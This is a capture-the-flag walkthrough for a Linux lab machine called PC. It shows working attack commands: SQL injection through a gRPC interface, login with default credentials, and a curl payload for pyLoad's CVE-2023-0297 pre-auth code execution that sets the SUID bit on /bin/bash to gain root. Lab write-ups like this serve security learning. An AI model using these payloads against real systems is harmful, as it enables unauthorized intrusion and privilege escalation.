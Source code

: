 # PC
* **POINTS**: 20
* **USER RATING**: Easy
* **OPERATING SYSTEM**: Linux
* **RATING**: 4.5

## 1. Recon
```bash
└─$ nmap -p- -sC -sV --min-rate 5000 10.10.11.214 -oN nmappc -Pn
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-12 11:16 CEST
Nmap scan report for 10.10.11.214
Host is up (0.16s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=8/12%Time=64D74E07%P=x86_64-pc-linux-gnu%r(N
SF:ULL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x0
SF:6\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(Generic
SF:Lines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetRe
SF:quest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPO
SF:ptions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSP
SF:Request,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\
SF:0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPC
SF:Check,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVe
SF:rsionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\
SF:xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0
SF:")%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0
SF:\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\
SF:0\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0
SF:\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\
SF:0\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x0
SF:5\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0
SF:\?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?
SF:\xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x0
SF:8\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\x
SF:ff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\
SF:0\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.92 seconds
```

## 2. TCP - 50051
There is an active service on port 50051 ! 

<p align="center">
  <img src="Images/port50051.png" />
</p>

Googling I found that port 50051 is the default port for the [gRPC channel](https://xrpl.org/configure-grpc.html).

Upon further digging, we find an [exploit](https://github.com/fullstorydev/grpcui) that allows us to interact with gRPC servers via a browser.

After installing the program we execute the following command:

```bash
└─$ grpcui --plaintext 10.10.11.214:50051 
gRPC Web UI available at http://127.0.0.1:43299/
```


Visiting the Web UI page we can see the presence of a login that we try to make using the default `admin:admin` credentials.

<p align="center">
  <img src="Images/login.png" />
</p>

The site's response is an identification token of the user used.

<p align="center">
  <img src="Images/token.png" />
</p>

So we can intercept the *getInfo* request, inserting the retrieved token.

<p align="center">
  <img src="Images/intercept.png" />
</p>

After some testing I found that the id parameter is vulnerable to SQLInjection.

<p align="center">
  <img src="Images/sqlinj.png" />
</p>

We save the request and use it to run [sqlmap](https://sqlmap.org/).

<p align="center">
  <img src="Images/sql res.png" />
</p>

We use the credentials found to access via ssh and then we get the user flag.

```bash
└─$ ssh sau@10.10.11.214 
The authenticity of host '10.10.11.214 (10.10.11.214)' can't be established.
ED25519 key fingerprint is SHA256:63yHg6metJY5dfzHxDVLi4Zpucku6SuRziVLenmSmZg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes 
Warning: Permanently added '10.10.11.214' (ED25519) to the list of known hosts.
sau@10.10.11.214's password: 
Last login: Mon May 15 09:00:44 2023 from 10.10.14.19
sau@pc:~$ ld
ld: no input files
sau@pc:~$ ls
user.txt
sau@pc:~$ cat user.txt 
366d3ff20136b0b38ee4e21cd4e958a0
```

## 3/4. User to ROOT
By executing [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) we find that there is an open service on port 8000.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                       
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
```

Running the `wget` command we get the *index.html* page.

```bash
sau@pc:/dev/shm$ wget http://127.0.0.1:8000
--2023-08-12 09:54:22--  http://127.0.0.1:8000/
Connecting to 127.0.0.1:8000... connected.
HTTP request sent, awaiting response... 302 FOUND
Location: /login?next=http%3A%2F%2F127.0.0.1%3A8000%2F [following]
--2023-08-12 09:54:22--  http://127.0.0.1:8000/login?next=http%3A%2F%2F127.0.0.1%3A8000%2F
Reusing existing connection to 127.0.0.1:8000.
HTTP request sent, awaiting response... 200 OK
Length: 13500 (13K) [text/html]
Saving to: ‘index.html’

index.html                   100%[==============================================>]  13.18K  --.-KB/s    in 0s      

2023-08-12 09:54:22 (181 MB/s) - ‘index.html’ saved [13500/13500]
```

Analyzing the page, it turns out that it refers to a login service related to `pyLoad`.

```html
sau@pc:/dev/shm$ cat index.html 
<!DOCTYPE html>
<html lang="en">

<head>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
    <meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=no">

    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/Bootstrap/css/bootstrap.min.css">
    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/jQuery/jQuery%20UI/jquery-ui.min.css"/>
    <link rel="stylesheet" type="text/css" href="/_themes/modern/vendor/mdtoast/css/mdtoast.min.css"/>
    <link rel="stylesheet" type="text/css" href="/_themes/modern/css/base.css" />

    <link rel="icon" href="/_themes/modern/img/favicon.ico"/>

<style type="text/css">
.ui-icon,
.ui-widget-content .ui-icon {
  background-image: url("/_themes/modern/img/ui-icons_444444_256x240.png");
}

#goto_top.affix-top {
  position: absolute;
  bottom: -82px;
  left: 10px;
}

#goto_top.affix {
  position: fixed;
  bottom: 18px;
  left: 10px;
}
</style>

<title>Login - pyLoad </title>


<link rel="stylesheet" type="text/css" href="/_themes/modern/css/login.css" />


</head>

<body>
```

Googling, you can find an [exploit](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) that allows us to have an RCE by executing the following command:

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```


We execute the command to set the SUID bit, then through the command `bash -p` we become root and get the root flag.

```bash
Could not decrypt keysau@pc:/dev/shm$ curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"chmod%20u%2Bs%20%2Fbin%2Fbash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://127.0.0.1:8000/flash/addcrypted2'
HTTP/1.1 500 INTERNAL SERVER ERROR
Content-Type: text/html; charset=utf-8
Content-Length: 21
Access-Control-Max-Age: 1800
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: OPTIONS, GET, POST
Vary: Accept-Encoding
Date: Sat, 12 Aug 2023 09:59:29 GMT
Server: Cheroot/8.6.0

Could not decrypt keysau@pc:/dev/shm$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
eacb3760878ab00311eb506872e260f9
```